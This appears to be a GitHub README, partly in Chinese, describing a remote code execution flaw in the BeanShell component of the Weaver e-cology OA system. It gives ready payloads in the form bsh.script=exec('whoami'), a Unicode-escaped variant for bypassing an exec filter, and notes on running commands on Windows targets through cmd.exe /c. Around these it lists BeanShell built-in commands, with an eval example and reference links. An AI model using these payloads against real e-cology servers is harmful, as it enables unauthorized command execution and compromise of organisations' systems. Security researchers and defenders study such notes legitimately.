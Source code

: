 # 泛微e-cology OA Beanshell组件远程代码执行

![](./set.jpg)
## Windows
![](./whoami.jpg)
## Linux
![](./linux.jpg)
![](./linux2.png)

## Ps
```
检测目标系统os.name（因为目标系统是windows的话，执行set等命令，需要手动敲cmd.exe /c set）
使用Unicode绕过exec过滤，部分站点
```
## Payload
```
bsh.script=exec('whoami');

>>>>unicode bypass

bsh.script=\u0065\u0078\u0065\u0063("whoami");

```

## Useful BeanShell Commands

```
In the previous example we used a convenient "built-in" BeanShell command called print(), to display values. 

print() does pretty much the same thing as System.out.println() except that it insures that the output always goes to the command line. print() also displays some types of objects (such as arrays) more verbosely than Java would. 

Another related command is show(), which toggles on and off automatic display of the result of every line you type.
```
#### Here are a few other examples of BeanShell commands:
```
source(), run() - Read a bsh script into this interpreter, or run it in a new interpreter
frame() - Display a GUI component in a Frame or JFrame.
load(), save() - Load or save serializable objects to a file.
cd(), cat(), dir(), pwd(), etc. - Unix-like shell commands
exec() - Run a native application
javap() - Print the methods and fields of an object, similar to the output of the Java javap command.
setAccessibility() - Turn on unrestricted access to private and protected components.
```
## bsh-2.0b4.jar command
`/Users/ale/Desktop/bsh/weaver/WEB-INF/lib/bsh/commands`

```
.//object.bsh
.//rm.bsh
.//run.bsh
.//print.bsh
.//pwd.bsh
.//error.bsh
.//cat.bsh
.//setClassPath.bsh
.//setAccessibility.bsh
.//exec.bsh
.//setFont.bsh
.//dirname.bsh
.//exit.bsh
.//source.bsh
.//frame.bsh
.//cp.bsh
.//printBanner.bsh
.//browseClass.bsh
.//cd.bsh
.//which.bsh
.//setNameSpace.bsh
.//workspaceEditor.bsh
.//thinBorder.bsh
.//bind.bsh
.//bg.bsh
.//save.bsh
.//fontMenu.bsh
.//getSourceFileInfo.bsh
.//classBrowser.bsh
.//load.bsh
.//javap.bsh
.//addClassPath.bsh
.//server.bsh
.//desktop.bsh
.//importCommands.bsh
.//mv.bsh
.//setStrictJava.bsh
.//eval.bsh
.//dir.class
.//getBshPrompt.bsh
.//unset.bsh
.//show.bsh
.//getResource.bsh
.//reloadClasses.bsh
.//clear.bsh
.//getClass.bsh
.//makeWorkspace.bsh
.//importObject.bsh
.//sourceRelative.bsh
.//getClassPath.bsh
.//pathToFile.bsh
.//setNameCompletion.bsh
.//editor.bsh
.//extend.bsh
.//debug.bsh
```

## for Example : eval.bsh

```
a=5;
eval("b=a*2");
print(b);

>>>
10
```
![](./eval.png)
## 参考链接：

http://www.beanshell.org/manual/bshmanual.html#Executable_scripts_under_Unix

https://mp.weixin.qq.com/s/Hr6fSOaPcTp2YaD-fPMxyg



